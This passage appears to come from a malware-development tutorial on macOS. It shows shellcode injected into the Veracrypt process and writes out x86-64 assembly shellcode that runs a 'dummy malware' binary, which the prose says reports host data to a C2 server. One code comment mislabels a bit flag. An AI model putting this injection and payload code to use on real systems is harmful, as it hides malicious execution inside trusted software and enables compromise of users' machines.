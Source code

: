 As you can see, we injected our `shellcode` into the `Veracrypt` process successfully. The message "Hello World!" was printed, confirming that the shellcode executed as expected and produced the desired output.

<img src="https://0xf00sec.github.io/images/IMG5.png"> 

However, let's shift our focus now. Remember the code we previously developed to transmit system data to the C2 server? What if we inject shellcode into the Veracrypt process to execute our dummy malware, enabling it to establish communication with the C2 server and transmit host data?

To execute a shell command, considering I'm running zsh, we need to trigger a syscall to run `/bin/zsh -c`. For this, we need to utilize `execve`. What does this do? Simply put, it executes the program referenced by `_pathname`, which in our case will be the path to our dummy malware executable. 

Alright, let's proceed by writing a simple assembly code to execute `/bin/zsh -c '/Users/foo/dummy'`. First, we'll set up a register (`rbx`) and load the string `'/bin/zsh'` into it. Once this string is pushed onto the stack, we'll proceed to load the ASCII values for `-c` into the lower 16 bits of the `rax` register. After pushing this `-c` flag onto the stack, we'll set the `rbx` register to point to the `-c` flag on the stack, as it will be necessary later during the syscall preparation.

Any additional details will be described in comments within the code. At the end of this section, there's an indirect jump facilitating the execution of subsequent instructions. This jump redirects the program flow to the address stored in the `exec` subroutine, ensuring the continuity of execution.

```c
global _main

_main:
    xor rdx, rdx        ; Clear rdx register
    push rdx            ; Push NULL onto stack (String terminator)
    mov rbx, '/bin/zsh' ; Load '/bin/zsh' into rbx
    push rbx            ; Push '/bin/zsh' onto stack
    mov rdi, rsp        ; Set rdi to point to '/bin/zsh\0'
    xor rax, rax        ; Clear rax register
    mov ax, 0x632D      ; Load "-c" into lower 16 bits of rax
    push rax            ; Push "-c" onto stack
    mov rbx, rsp        ; Set rbx to point to "-c"
    push rdx            ; Push NULL onto stack
    jmp short dummy     ; Jump to label dummy

exec:
    push rbx            ; Push "-c" onto stack
    push rdi            ; Push '/bin/zsh' onto stack
    mov rsi, rsp        ; Set RSI to point to stack
    push 59             ; Push syscall number
    pop rax             ; Pop syscall number into rax
    bts rax, 25         ; Set 25th bit of rax (AT_FDCWD flag)
    syscall             ; Invoke syscall

dummy:
    call exec                   ; Call subroutine exec
    db '/Users/foo/dummy_m', 0  ; Define string
    push rdx                    ; Push NULL onto stack
```
